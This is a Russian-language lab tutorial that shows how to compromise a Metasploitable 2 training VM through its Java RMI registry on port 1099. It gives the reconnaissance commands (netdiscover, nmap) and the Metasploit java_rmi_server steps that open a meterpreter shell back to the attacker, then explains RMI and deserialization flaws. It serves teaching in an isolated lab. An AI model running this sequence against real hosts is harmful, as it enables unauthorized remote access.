


Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Начинаем атаку на удаленную машину Metasploitable 2.
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале:
nmap -sC -sV 10.0.2.3
В выводе nmap находим такую строку (сриншот ниже):
1099/tcp open java-rmi GNU Classpath grmiregistry
означает следующее:
1099/tcp — открыт TCP-порт 1099.
open — порт открыт и принимает подключения.
java-rmi — Nmap определил, что на этом порту работает сервис Java RMI (Remote Method Invocation).
GNU Classpath grmiregistry — Nmap считает, что это grmiregistry, входящий в проект GNU Classpath.

Запускаем Метасплоит командой в терминале Kali:
msfconsole
msf > search rmiregistry
Нам подходит эксплоит:
0 exploit/multi/misc/java_rmi_server
Даем команду:
msf > use 0
msf exploit(multi/misc/java_rmi_server) > set RHOSTS 10.0.2.3
msf exploit(multi/misc/java_rmi_server) > set LHOST 10.0.2.4
msf exploit(multi/misc/java_rmi_server) > exploit
И получаем сессию meterpreter, как на скриншоте ниже.

Что такое Java RMI
Java RMI (Remote Method Invocation) — это технология Java, которая позволяет одной программе вызывать методы объекта, который находится на другом компьютере.
Это примерно похоже на RPC (Remote Procedure Call).
Представте:
Компьютер A запускает Java-приложение.
Компьютер B хочет вызвать функцию этого приложения.
Вместо передачи файлов или запуска SSH он просто делает
calculator.add(5, 7);
Хотя объект calculator физически находится на другом компьютере.
Для программиста это выглядит как обычный вызов функции.
То есть:
Клиент (Java) ------------------> Сервер (Java)
вызывает метод
На самом деле метод add() выполняется на удаленном сервере.
Java RMI — это не сервер, а технология (механизм) удаленного вызова методов в Java.
Можно провести аналогию:
HTTP — это технология (протокол), а Apache или Nginx — серверы, которые ее используют.
SSH — это протокол, а OpenSSH Server — серверная программа.
Java RMI — это технология, а RMI Server — программа, использующая эту технологию.
Из чего состоит Java RMI
Обычно есть три части:
RMI Server — Java-приложение, которое предоставляет удаленные объекты и методы.
rmiregistry — служба (реестр), которая помогает клиентам найти эти объекты. По умолчанию работает на порту 1099.
RMI Client — программа, которая подключается к серверу и вызывает его методы.
Объекты и методы пишет программист. Java RMI сама никаких специальных объектов не предоставляет — она лишь позволяет сделать обычный Java-объект доступным по сети.
Java RMI — объект остаётся на сервере, а клиент лишь удалённо вызывает его методы через сеть. Именно поэтому технология называется Remote Method Invocation — «удалённый вызов методов».
Java RMI — это примерно как удалённый вызов COM-объекта (DCOM) в Windows, только для Java.
Нужна ли Java на клиенте?
Да.
Если мы пишем RMI-клиент, то у нас должна быть Java Runtime (JRE) или JDK.
Без Java обычная RMI-программа работать не сможет.
То есть такой сценарий:
Мой компьютер
(Java установлена)
|
| RMI
v
Удаленный сервер
(Java установлена)
А если Java у нас локально на клиенте вообще нет?
Тогда мы не сможем запустить Java-программу.
Можно лишь использовать другие инструменты (например, Metasploit, Nmap, собственные реализации протокола), которые умеют общаться с RMI по сети без установленной Java. Но это уже не Java RMI-клиент, а программы, которые реализуют протокол самостоятельно.
Что такое rmiregistry?
Это специальный сервер имен.
Представь телефонную книгу.
На сервере могут находиться разные объекты:
Calculator
Printer
Database
Chat
rmiregistry хранит соответствие:
"Calculator" -> объект Calculator
"Printer" -> объект Printer
Клиент сначала спрашивает:
Есть объект Calculator?
Registry отвечает:
Да.
После этого клиент начинает работать непосредственно с этим объектом.
Почему Metasploit может атаковать RMI без Java?
Потому что Metasploit сам реализует протокол RMI.
Ему не нужна установленная Java.
Он умеет:
подключаться к порту 1099;
разговаривать по протоколу RMI;
искать уязвимости;
отправлять специальные запросы.
Поэтому эксплойт exploit/multi/misc/java_rmi_server работает даже если на машине атакующего Java не установлена.
Что делает exploit/multi/misc/java_rmi_server
Мы запускаем
use exploit/multi/misc/java_rmi_server
Это модуль, который пытается использовать известные проблемы RMI-сервера.
Затем указываем IP машины.
set RHOST 10.0.2.3
Потом
exploit
Metasploit:
1)Подключается к порту 1099.
Attacker
│
▼
1099
2)Получает информацию о Registry.
Например
Objects: Calculator Printer HelloService
3)Отправляет специально сформированный Java-объект.
4)Если сервер уязвим, он выполняет этот объект.
В результате запускается payload Metasploit.
Например
Meterpreter
Как это выглядит целиком
Attacker
│
│
scan (Nmap)
│
▼
1099 rmiregistry найден
│
▼
Metasploit
│
▼
подключение к Registry
│
▼
отправка вредоносного Java-объекта
│
▼
сервер выполняет объект
│
▼
запускается payload
│
▼
получаем shell
Почему это работает на Metasploitable 2
Metasploitable 2 — это учебная виртуальная машина, специально содержащая множество устаревших и уязвимых сервисов. На ней запущена старая реализация Java RMI с небезопасной конфигурацией, поэтому модуль Metasploit успешно получает удалённый доступ. На современных версиях Java большинство подобных проблем устранено: включены ограничения на загрузку удалённых классов, исправлены известные уязвимости десериализации и появились дополнительные механизмы защиты. Поэтому обнаружение открытого порта 1099 само по себе не означает, что сервер можно взломать — это лишь говорит о том, что работает служба RMI. Для успешной атаки требуется конкретная уязвимость или небезопасная конфигурация.
В нашем примере уязвима сама реализация Java RMI.
Например, в старых версиях Java происходило следующее:
Клиент отправляет серверу специальный объект.
RMI пытается его обработать (десериализовать).
Из-за ошибки (уязвимости) вместо обычной обработки начинает выполняться код злоумышленника.
Этот код уже может вызвать функции ОС (например, через Java API или нативные вызовы) с правами процесса Java.
Поэтому сам RMI не предназначен для выполнения произвольного кода клиента. Это становится возможным только тогда, когда в реализации RMI или в приложении есть уязвимость.
Именно этим пользуется Metasploit: он не вызывает «секретную функцию взлома», а пытается использовать ошибку в RMI, чтобы заставить сервер выполнить код, который изначально выполнять не должен.